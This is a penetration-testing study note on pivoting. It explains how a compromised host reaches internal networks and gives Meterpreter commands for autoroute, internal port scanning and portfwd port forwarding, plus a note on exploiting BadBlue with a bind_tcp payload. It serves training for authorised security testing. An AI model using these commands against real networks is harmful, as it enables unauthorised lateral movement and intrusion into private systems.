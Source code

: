 # 12 - Pivoting

## Pivoting

* Pivoting is a post exploitation technique that involves utilizing a compromised host that is connected to multiple networks to gain access to systems within other networks.
* After gaining access to one host, we can use the compromised host to exploit other hosts on a private internal network to which we could not access previously.
* Meterpreter provides us with the ability to add a network route to the internal network's subnet, perform port forwarding and consequently scan and exploit other systems on the network.

## **Port Forwarding**

* Port forwarding is the process of redirecting traffic from a specific port on a target system to a specific port on our system.
* In the context of pivoting, we can forward a remote port on a previously inaccessible host to a local port on our Kali Linux system so that we can remotely interact/exploit the service running on the port.

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
meterpreter > run autoroute -s <subnet> #Add a route to a subnet
meterpreter > run autoroute -p #Display the active routing table.

msf6 > use auxiliary/scanner/portscan/tcp #When targeting a system part of a subnet that we route with meterpreter, we need to use an MSF module to scan it. set PHOSTS $ip_victim2IP, set RPORTS 1-100 to scan 100 ports.

meterpreter > portfwd add -l <localPort> -p <remotePort> -r <targetIP> #Port forward a remote port on the target system to a local port on our local system.
# We can then scan/exploit the remote port through the local specified port without using MSF.

# With MSF --> Use target IP.
# we use the BadBlue vuln, set payload windows/meterpreter/bind_tcp, run, we get a meterpreter session.

# Withtout MSF --> Use forwarded port on localhost.
```
{% endcode %}



